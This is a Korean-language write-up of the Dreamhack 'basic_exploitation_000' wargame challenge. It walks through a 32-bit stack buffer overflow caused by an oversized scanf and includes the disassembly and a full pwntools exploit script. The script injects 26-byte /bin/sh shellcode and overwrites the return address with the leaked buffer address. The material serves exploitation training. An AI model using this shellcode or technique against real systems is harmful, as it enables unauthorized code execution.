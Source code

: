 # [basic_exploitation_000](https://dreamhack.io/wargame/challenges/2/) 

 문제 파일의 코드는 다음과 같다. 주석은 코드의 해석을 위하여 본인이 직접 작성한 것이다.

```C
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0); // 표준 입력에서 버퍼를 사용하지 않는다. 버퍼를 지나지 않고 요청 즉시 작업이 진행된다. 
    setvbuf(stdout, NULL, _IONBF, 0); // 표준 출력에서 버퍼를 사용하지 않는다. 버퍼를 지나지 않고 요청 즉시 작업이 진행된다.

    signal(SIGALRM, alarm_handler); // SIGALRM이 발생하면 alarm_handler를 실행한다.
    alarm(30); // 30초 후에 SIGALRM을 발생시킴.
}


int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    printf("buf = (%p)\n", buf); //buf의 주소 값을 출력
    scanf("%141s", buf);

    return 0;
}
```

## Exploit strategy
 유심히 봐야할 코드는 scanf("%141s", buf); 이다. buf의 크기는 0x80 = 128 byte이므로 scanf를 통하여 buf의 크기보다 더 많은 양의 데이터를 입력할 수 있다. 이를 이용하여 스택 버퍼 오버 플로우를 발생시키면 된다. pwndbg를 통하여 주어진 바이너리 파일의 main함수를 disassemble하여 살펴보자. 
 
```assembly 
   0x080485d9 <+0>:     push   ebp
   0x080485da <+1>:     mov    ebp,esp
   0x080485dc <+3>:     add    esp,0xffffff80
   0x080485df <+6>:     call   0x8048592 <initialize>
   0x080485e4 <+11>:    lea    eax,[ebp-0x80]
   0x080485e7 <+14>:    push   eax
   0x080485e8 <+15>:    push   0x8048699
   0x080485ed <+20>:    call   0x80483f0 <printf@plt>
   0x080485f2 <+25>:    add    esp,0x8
   0x080485f5 <+28>:    lea    eax,[ebp-0x80] // 오버플로우를 발생시킬 버퍼는 ebp-0x80에 위치함. 
   0x080485f8 <+31>:    push   eax
   0x080485f9 <+32>:    push   0x80486a5
   0x080485fe <+37>:    call   0x8048460 <__isoc99_scanf@plt>
   0x08048603 <+42>:    add    esp,0x8
   0x08048606 <+45>:    mov    eax,0x0
   0x0804860b <+50>:    leave
   0x0804860c <+51>:    ret
```

lea eax,[ebp-0x80]를 보면 오버플로우를 발생시킬 버퍼는 ebp-0x80에 위치함을 알 수 있다. 스택 프레임의 구조를 떠올려보자. ebp에는 SFP가 저장되므로 ebp+0x4(공격 대상 컴퓨터는 32bit이므로 포인터 크기는 4바이트이기 때문이다.)에 return address가 저장될 것임을 알 수 있다. 그런데 return address에 shell code를 넣을 수는 없다. 우리가 사용할 쉘코드는 26바이트이기 때문이다.(scanf는 \x09, \x0a, \x0b, \x0c, \x0d, \x20를 읽지 못하는데 25byte인 일반적인 shell code는 \x0b를 포함하므로 사용할 수 없다.) 따라서 return address에 buf의 주소를 넣고 buf안에 shell code를 넣어 shell code를 실행시킬 것이다.이제 Exploit script를 작성해보자. 

## Exploit script

```python
# importing pwntools
from pwn import* 

# 원격서버를 대상으로 실제로 공격하므로 remote함수를 사용한다. 매개변수는 각각 호스트와 포트넘버이다.
p = remote('host2.dreamhack.games',20316) 

# 공격 대상 아키텍쳐는 x86
context.arch = 'i386' 

# buf의 주소 값을 담는 작업
p.recvuntil('buf = (') #  주소 값을 따로 저장하기위해 'buf = (' 까지만 받는다.
buf_addr = int(p.recv(10),16) # bytes로 받은 주소 값을 16진수 정수로 변환하여 저장
p.recvline() # 남은 ")\n" 처리

# payload 작성
payload = b"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80" # 버퍼에 담을 26byte shell code
payload += b"\x90"*(132-26) # ebp+0x3까지 담을 더미 값 
payload += p32(buf_addr) # return address에 들어갈 buf의 주소 값을 32bit packing(little endian의 byte 배열로 변경)

# payload + '\n'을 전송
p.sendline(payload) 

# 셸을 획득했으므로 interactive 함수 사용
p.interactive()
```


